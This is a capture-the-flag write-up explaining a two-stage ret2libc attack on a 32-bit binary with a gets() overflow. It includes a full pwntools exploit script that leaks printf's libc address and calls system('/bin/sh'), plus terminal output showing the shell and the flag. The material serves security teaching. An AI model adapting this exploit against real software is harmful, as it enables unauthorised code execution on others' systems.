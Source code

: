 ### Solved by superkojiman

The challenge is a simple binary with a vanilla buffer overflow caused by gets() in the vuln() function. ASLR and NX were also enabled, so I needed to leak an address to be able to ret2libc. The exploit process is pretty simple:

1. Return to printf@plt to return printf()'s GOT entry.
1. We have access to the target's libc, so I can find printf()'s offset. 
1. Subtract the offset from the returned address of printf(), and I have libc's base address.
1. Now I can get system() and "/bin/sh" offsets from libc and add them to libc base to get their actual address.
1. From printf(), return to vuln() so I can overwrite EIP all over again and return to system("/bin/sh"). 

However the binary doesn't run over a socket, so I needed to launch the process from my script and communicate with it. pwntools has pwnlib.tubes.process which is an amazing wrapper for Python's subprocess that makes communication with a process so easy. To simplify things, I installed pwntools locally on the CTF's shell server they provided us. Here's the exploit:

```python
#!/usr/bin/env python
from pwn import *

# obtained from libc-database
offset_printf = 0x0004cc40
offset_system  = 0x0003fcd0
offset_binsh = 0x0015da84

buf = ""
buf += "A"*76
buf += p32(0x8048310)       # printf@plt
buf += p32(0x804844d)       # printf ret to vuln()
buf += p32(0x804852a)       # "%s\n"
buf += p32(0x804a00c)       # printf@got

# stage 1: leak libc address for printf
sh = process("/problems/rop2libc/rop2libc")
sh.sendline(buf)
print sh.recvline()
d = sh.recvline()
print "leak:", d
addr_printf = u32(d[:4])

print "addr_printf:", hex(addr_printf)

libc_base = addr_printf - offset_printf
print "libc_base:", hex(libc_base)

# local offsets
addr_system = libc_base + offset_system
addr_binsh  = libc_base + offset_binsh

print "system:", hex(addr_system)
print "/bin/sh:", hex(addr_binsh)

# stage 2: get a shell execve("/bin/sh")
buf = ""
buf += "A"*76
buf += p32(addr_system)
buf += "XXXX"
buf += p32(addr_binsh)

print "trying to get shell..."
sh.sendline(buf)
sh.interactive()
sh.close()
```

Finally, let's get that flag: 

```
team24254@shell:~$ ./sploit.py
[+] Starting program '/problems/rop2libc/rop2libc': Done
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\x83\x0M\x84\x0*\x85\x0\x0c\xa0\x0

leak: @\xacY�"[�6pyV�

addr_printf: 0xf759ac40
libc_base: 0xf754e000
system: 0xf758dcd0
/bin/sh: 0xf76aba84
trying to get shell...
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��X�XXXX\x84\xbaid
uid=1028(team24254) gid=1000(ctfgroup) euid=1084(rop2libc) groups=1008(rop2libc),1000(ctfgroup)
$ cat /problems/rop2libc/flag.txt
with_file_io_aslr_bends_to_my_will
```
